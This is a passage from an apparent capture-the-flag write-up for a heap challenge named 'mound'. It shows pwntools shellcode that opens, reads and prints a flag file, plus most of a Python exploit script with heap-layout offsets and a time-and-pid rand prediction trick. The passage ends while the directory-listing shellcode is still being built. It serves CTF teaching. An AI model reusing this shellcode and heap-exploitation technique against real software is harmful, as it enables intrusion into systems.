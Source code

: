 ```python
sc+= 'lea rbx, [rax-0x20]\n'
sc+= 'mov rax, QWORD PTR [{}]\n'.format(0xbeef0000000)
sc+= shellcraft.openat('rax', 'rbx', 0)          # i.e. shellcraft.cat('rbx'), but
sc+= shellcraft.read('rax', 0xdead0000000, 100)  # because pwntools uses SYS_open 
sc+= shellcraft.write(1, 0xdead0000000, 100)     # I have to do this in 3 lines.
```

### Getting the flag

For reference, this is what the full script should look like at this point:

```python
from random import randint
from collections import namedtuple
from ctypes import CDLL
from pwnscripts import *

BEEF, DEAD = 0xbeef0000000, 0xdead0000000
mound_arena = namedtuple('mound_metadata', 'base ids mcache top')(DEAD, DEAD+0x8, DEAD+0x8008, DEAD+0x8010)
mound_data = namedtuple('beef', 'base mcache dents shellcode')(BEEF, BEEF+0x10, BEEF+0x10000, BEEF+0x100)
midxs = namedtuple('midb', 'prev_size_editor fakeid_provider strdup mcache_dup got_overwriter')(5, 6, 0, 1, 2)

context.binary = 'mound'
context.libc = 'libc.so.6'
libc = CDLL('libc.so.6')
t = libc.time(0)
r = context.binary.process()
libc.srand(t^r.pid)

# I/O methods
def choose(opt: int): r.sendlineafter(b'> ', str(opt))
def strdup(s: bytes, i: int):
    choose(1)
    r.sendafter(b'Pile: ', s)
    r.sendlineafter(b'index: ', str(i))
def add(midx: int, idx: int, s: bytes):
    choose(2)
    sz = midx2rsize(midx)
    assert sz < 0x1000
    assert len(s) <= sz
    r.sendlineafter('pile: ', str(sz))
    r.sendlineafter('index: ', str(idx))
    r.sendafter('Pile: ', s)
def edit(idx: int, s: bytes):
    choose(3)
    r.sendlineafter('index: ', str(idx))
    r.sendafter('pile: ', s)
def free(idx: int):
    choose(4)
    r.sendlineafter('index: ', str(idx))

def csize2midx(x:int): return (x>>4)-2
def midx2csize(i:int): return (i+2)<<4
def size2request(x:int): return x-0x10
def request2size(x:int): return x+0x10
def midx2rsize(i:int): return size2request(midx2csize(i))
def r64bit(): return libc.rand()+(libc.rand()<<32) # emulate rand64bit
def r64(): return randint(0, (1<<64)-1) # a separate, unrelated function to produce random numbers

O_DIRECTORY, FLAG_LEN = 0x10000, 100 # use reasonably long values here
sc = '' # step 1: getting a directory listing
```